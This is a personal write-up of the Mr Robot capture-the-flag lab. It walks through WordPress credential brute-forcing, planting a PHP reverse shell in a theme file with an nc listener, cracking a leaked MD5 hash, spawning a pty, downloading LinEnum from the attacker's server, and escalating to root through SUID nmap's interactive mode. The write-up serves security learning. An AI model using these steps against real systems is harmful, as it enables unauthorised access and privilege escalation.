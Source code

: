 # flag 1
### the startup process
When starting any CTF like this one i scan the VM with nmap to see if there is any open services.
Upon search port 80 was open to a HTTP service
When you go to the IP:80 you will be greeted with a mr robot themed shell with afew commands you can use. 
I tried each of these and beyond the cool visuals got nothing from them.

### What i did next
I then decided to scan the directory of the site using dirsearch.
Upon completion i saw the site was using robots.txt which is a file that excludes items from webcrawling.
After opening robots.txt you will see the file name for the first flag which was then found.
You will also find a .dir file containing what i think is possible usernames to the website

# flag 2
For the next step i investigated the wordpress login i found during the dirsearch
I used burpsuite with the dictionary found during flag one and got the username "elliot"
I then used the found username with the same dic file to try get the password

### tools used
I could of continued to use burpsuite but its slow for such a large dataset.
I decided to use WPScan as it allows for faster password attacks since its not limited 

After the wordlist i found earlier had ran for abit i got the password.

Once i had access to the wordpress i needed to find a way to get a shell on my terminal from the vulnerable machine

For this i used a PHP reverse shell exploit from Pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
I inserted the code into the archive.php site and then when i go to this site the exploit will auto execute giving me a reverse shell
First i set up the listener
```
└─$ nc -nvlp 8080      
listening on [any] 8080 ...
```

then when i went to the site i got the execution of exploit and a shell in my terminal 
```
connect to [IP] from (UNKNOWN) [IP] 50319
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:45:12 up 13:26,  0 users,  load average: 0.00, 0.01, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### what i found using the reverse shell
in the /home/robot/ directory is two files
key-2-of-3.txt
and a password hash

I cannot access the key without the correct permissions so for this we will need to crack the password hash.
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```
is the password has for robots user
For the cracking of the hash i used a online md5 cracking website
That successfully gives you the password

### the trouble
After this i was stuck on how to login to the user i had now got the password for.
I tried to SSH into it but couldnt get passed a connection fail
This is when someone suggested i needed to include the bin/bash folder so using python i did this with the command
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
after this i could login as robot by doing 
```
su robot
```
and the password

Once i had the user set as robot i was able to go to /home/robot and open key-2-of-3.txt successfully getting the key

# flag 3

To get the root shell i needed more information so i put LinEnum on a webserver and downloaded it to the shell i had created in flag 2 using
```
wget IP:port/LinEnum.sh
chmod -x LinEnum.sh
```
I then ran the script and found this
```
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```
This tells me i can exploit the nmap install on the server
I went to GTFOBins and looked for NMAP

I had to find the version of nmap running so i did 
` /usr/local/bin/nmap `
and found it was version 3.81
meaning i could run the command

```
nmap --interactive
!sh
```
After this you will have root access and in the root folder you will find key-3-of-3.txt

# complete! 


